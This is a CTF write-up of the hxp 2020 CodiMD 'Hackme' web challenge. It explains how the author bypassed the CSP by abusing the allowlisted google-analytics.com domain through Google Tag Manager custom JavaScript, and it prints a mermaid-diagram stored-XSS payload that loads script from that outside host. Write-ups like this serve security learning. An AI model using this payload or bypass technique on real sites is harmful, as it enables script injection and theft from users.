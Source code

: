 Hackme: Web hard - hxpctf 2020
===
This year I played hxp ctf w/ [mHACKeroni](https://mhackeroni.it)
## The challenge
The challenge is a [CodiMD](https://github.com/hackmdio/codimd) docker with report uri.
In the challenge, a note called "the-flag" exists and it contents, obv, the fl4g. This challenge is very very intresting, I loved it but the Dockerfile is really B1GG, with my orrible network it took ~15 minutes for build ahahah. 

## The bug
This challenge, obviously, has an XSS vuln mlmlmlml!\
Oh sh1t there is a CSP. I took a couple of minutes to analyze it
```
Content-Security-Policy: default-src 'self';script-src 'self' vimeo.com https://gist.github.com www.slideshare.net https://query.yahooapis.com 'unsafe-eval' https://disqus.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 'nonce-90dfe8a7-eaa5-41a5-a9f2-7d36a6db7ce3' 'sha256-81acLZNZISnyGYZrSuoYhpzwDTTxi7vC1YM4uNxqWaM=';img-src * data:;style-src 'self' 'unsafe-inline' https://github.githubassets.com https://*.disquscdn.com;font-src 'self' data: https://public.slidesharecdn.com https://*.disquscdn.com;object-src *;media-src *;child-src *;connect-src *
```  
Eureka: `https://www.google-analytics.com` is enable.\
But first I need a method to include some script from google analytics :(\
With some osint I find a stored xss bug in [mermeid graph]( https://github.com/mermaid-js/mermaid/issues/869). 
## IT'S TIME TO EXPLOIT
With google analytics there is a service called "Google Tag Manager". With it I can create cusotm tag and custom javascript code.

First of all I write an XSS payload and create a variable in Google Tag Manager with this paylod.

![CustomJavascript](images/custom_javascript.png)

Secondly I create a custom Google Universal Analytics Tag ang Google Analytics Settigs that took the custom variable and do something at the page load event

![Gas](images/gas.png)

![Gaua](images/gaua.png)

Finally I write a new note that trigger the xss bug:
```
```mermaid
graph TD
B --> C{<script src=https://www.google-analytics.com/gtm/js?id=GTM-MLQBR25 ></script>}
```

And I report my note.

The flag: 
`
hxp{Yo dawg, I heard you like XSS, so I put some DOM injection in your script injection so you can inject scripts while you inject HTML while you inject scripts! Any questions?}
`.

Thanks a lot to orgs for the idea and for the other challenges.
